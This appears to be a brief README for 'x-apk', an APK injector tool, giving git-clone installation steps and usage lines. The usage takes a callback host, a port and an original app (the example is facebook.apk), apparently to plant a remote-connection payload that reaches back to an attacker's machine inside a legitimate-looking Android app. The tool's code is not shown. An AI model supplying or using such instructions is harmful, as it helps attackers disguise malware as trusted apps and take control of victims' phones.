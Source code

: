 # x-apk
# installation:
git clone https://github.com/sirai-ayoub/apk_injector.git
chmod 777 apk_injector/x-apk.py && apk_injector/x-apk.py

#Usage:
      apk_injector/x-apk.py -h="ip or host" -p="port" -x="original apk"

#Example:
      apk_injector/x-apk.py -h=192.168.1.5 -p=443 -x=facebook.apk

